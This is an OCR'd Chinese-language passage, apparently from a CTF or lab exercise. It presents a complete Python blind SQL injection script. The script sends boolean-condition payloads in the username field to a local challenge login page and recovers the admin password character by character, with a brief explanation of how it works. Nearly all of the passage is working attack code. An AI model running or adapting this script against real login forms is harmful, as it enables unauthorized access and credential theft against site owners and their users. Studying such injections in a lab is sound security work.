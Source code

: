 > 要编写一个盲注脚本来通过逐字符猜测数据库中的密码，我们可以使用 Python 的 requests 库进行 HTTP 请求，并结合布尔盲注法对数据库内容进行枚举。
>
> 假设我们要猜测 admin 用户的密码，可以逐字符猜测密码的每个字符的 ASCII 值，直到猜出完整的密码。以下是盲注脚本的示例：
>
> ```python3
> import requests
> import string
> 
> url = "http://challenge.localhost/"  
> target_user = "admin"
> guessed_password = ""
> 
> # 逐字符猜测密码
> while True:
>     found_character = False
>     for char in string.printable:  # 使用可打印字符进行猜测
>         payload = {
>             "username": f'{target_user}" AND substr(password,{len(guessed_password) + 1}, 1) = "{char}" -- ',
>             "password": "anything"
>             # 任何内容，因为 `password` 字段已在SQL注入条件中被绕过
>         }
> 
>         response = requests.post(url, data=payload)
> 
>         # 判断响应是否与之前不同来推测字符是否正确
>         if "Hello, admin" in response.text:
>             guessed_password += char
>             print(f"[+] Guessed so far: {guessed_password}")
>             found_character = True
>             break  
>             # 找到字符后，跳出循环尝试下一个字符
> 
>     # 如果在循环中没有找到新字符，则猜测结束
>     if not found_character:
>         print(
>             f"[+] Password for {target_user} is: 				{guessed_password}"
>         )
>         break
> '''
> 脚本解释
> SQL 注入构造：我们使用:
> substr(password, {len(guessed_password) + 1}, 1) 
> 来获取 password 的每个字符，char 是我们猜测的当前字符。SQL 注入条件为 username 参数构造的部分。
> 布尔判断：每次请求后，检查响应页面中是否出现 Hello, admin。如果匹配，则表示字符猜对，加入 guessed_password，否则继续猜测下一个字符。
> 终止条件：当一轮猜测无法找到新字符时，说明我们已猜完所有字符。
> 注意事项
> 该脚本假定目标服务器在本地。若部署在其他服务器上，请更改 url 变量。
> app.secret_key 和其他安全设置在实际部署时应当妥善配置，以确保应用的安全性。
> 这样可以逐步枚举出 admin 的密码。
> '''
> ```
